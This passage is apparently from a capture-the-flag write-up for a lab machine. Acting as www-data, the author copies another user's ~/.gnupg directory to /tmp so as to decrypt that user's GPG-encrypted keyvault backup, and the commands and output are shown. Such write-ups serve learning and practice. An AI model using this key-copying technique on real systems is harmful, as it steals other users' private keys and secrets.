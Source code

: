 ```bash
www-data@environment:/home/hish/backup$ file keyvault.gpg 
keyvault.gpg: PGP RSA encrypted session key - keyid: B755B0ED D6CFCFD3 RSA (Encrypt or Sign) 2048b .
```

We found out this file is a PGP encrypted session key and we need to decrypt it.

```bash
www-data@environment:/home/hish/.gnupg$ ls -la
total 32
drwxr-xr-x 4 hish hish 4096 Aug 20 15:27 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
drwxr-xr-x 2 hish hish 4096 Aug 20 15:27 openpgp-revocs.d
drwxr-xr-x 2 hish hish 4096 Aug 20 15:27 private-keys-v1.d
-rwxr-xr-x 1 hish hish 1446 Jan 12  2025 pubring.kbx
-rwxr-xr-x 1 hish hish   32 Jan 12  2025 pubring.kbx~
-rwxr-xr-x 1 hish hish  600 Jan 12  2025 random_seed
-rwxr-xr-x 1 hish hish 1280 Jan 12  2025 trustdb.gpg
```

Then we got these from `~/.gnupg` directory. <br>
&rarr; We searching and got [Encryption and Decryption with GPG](https://www.redhat.com/en/blog/encryption-decryption-gpg) to see how we can decrypt this file.

Now we will decrypt the `keyvault.gpg` file.

```bash
www-data@environment:/home/hish$ gpg --homedir /home/hish/.gnupg --output /tmp/keyvault.txt --decrypt /home/hish/backup/keyvault.gpg
gpg: WARNING: unsafe ownership on homedir '/home/hish/.gnupg'
gpg: failed to create temporary file '/home/hish/.gnupg/.#lk0x000055c5ce8a45f0.environment.2950': Permission denied
gpg: can't connect to the agent: Permission denied
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
gpg: decryption failed: No secret key
```

From here, we can see that **Permission denied** and if we check that we are **www-data** and not **hish** so we attempt to `cp` the `/.gnupg` directory to `/tmp`.

```bash
www-data@environment:/tmp$ cp -r /home/hish/.gnupg/ .
www-data@environment:/tmp$ ls -la
total 40
drwxrwxrwt 10 root     root     4096 Aug 20 15:40 .
drwxr-xr-x 18 root     root     4096 Apr 30 00:31 ..
drwxrwxrwt  2 root     root     4096 Aug 20 13:00 .ICE-unix
drwxrwxrwt  2 root     root     4096 Aug 20 13:00 .X11-unix
drwxrwxrwt  2 root     root     4096 Aug 20 13:00 .XIM-unix
drwxrwxrwt  2 root     root     4096 Aug 20 13:00 .font-unix
drwxr-xr-x  4 www-data www-data 4096 Aug 20 15:40 .gnupg
drwx------  3 root     root     4096 Aug 20 13:01 systemd-private-06add1c7763d4c8988870fcb3cac3170-systemd-logind.service-wzq8Ff
drwx------  3 root     root     4096 Aug 20 13:00 systemd-private-06add1c7763d4c8988870fcb3cac3170-systemd-timesyncd.service-i3fHN6
drwx------  2 root     root     4096 Aug 20 13:01 vmware-root_564-2965382482
```
